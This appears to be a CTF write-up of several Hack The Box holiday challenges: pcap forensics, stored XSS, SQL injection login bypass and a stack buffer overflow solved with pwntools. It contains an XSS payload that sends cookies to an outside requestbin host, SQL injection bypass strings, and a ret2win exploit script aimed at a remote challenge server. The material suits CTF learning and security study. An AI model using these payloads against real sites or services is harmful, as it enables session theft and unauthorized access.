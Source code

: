 # baby APT

![](https://i.imgur.com/4sC0UhS.png)

```
unzip forensics_baby_apt.zip
wireshark christmaswishlist.pcap
```
filter by HTTP and follow TCP stream
![](https://i.imgur.com/E2OCrCn.png)

>SFRCezBrX24wd18zdjNyeTBuM19oNHNfdDBfZHIwcF8wZmZfdGgzaXJfbDN0dDNyc180dF90aDNfcDBzdF8wZmYxYzNfNGc0MW59
>HTB{0k_n0w_3v3ry0n3_h4s_t0_dr0p_0ff_th3ir_l3tt3rs_4t_th3_p0st_0ff1c3_4g41n}

---

# Toy Workshop
![](https://i.imgur.com/ea6Z4Ji.png)

![](https://i.imgur.com/GnxWYrl.png)
![](https://i.imgur.com/Zr6hxs3.png)
![](https://i.imgur.com/BlmCxlT.png)
```
X-Forwarded-For: 127.0.0.1
```
not working so then it came to mind to steal the cookie since there was a fake flag within a cookie

![](https://i.imgur.com/Chzn6cV.png)
```
<img src=x onerror=this.src='https://requestbin.io/1dc0lwe1?'+document.cookie;>
```
i was hinted: https://requestbin.io/

![](https://i.imgur.com/2T5Y6Y1.png)

---

# Toy Management

![](https://i.imgur.com/qzOnrkW.png)
![](https://i.imgur.com/szqoi4T.png)

```
admin' OR 1=1 -- 
```
didnt work so lets try string
```
admin' OR '1'='1 -- 
```
![](https://i.imgur.com/qhjSrFG.png)

>HTB{1nj3cti0n_1s_in3v1t4bl3}

---

# Mr Snowy
![](https://i.imgur.com/xrVvQZK.png)

```
gdb ./mr_snowy
info function

```
![](https://i.imgur.com/TXdkTzF.png)

we noticed the size was 64 + 8 = 72 bytes
and 0x401165 was the location of the function we need to call
```
python3 -c "from pwn import *; print(b'A'*72+p64(0x401165))"
```
so tested it locally 
```
from pwn import *

target = process("./mr_snowy");

target.sendlineafter(">", b'1');
target.sendlineafter(">", b'A'*72 + p64(0x401165));

target.interactive();
```
but to run on remote we had to tweak the code a bit
```
from pwn import *

#target = process("./mr_snowy");

target = remote('178.62.32.210',32687);

target.sendlineafter(">", b'1');
target.sendlineafter(">", b'A'*72 + p64(0x401165));

target.interactive();
```
>HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh}

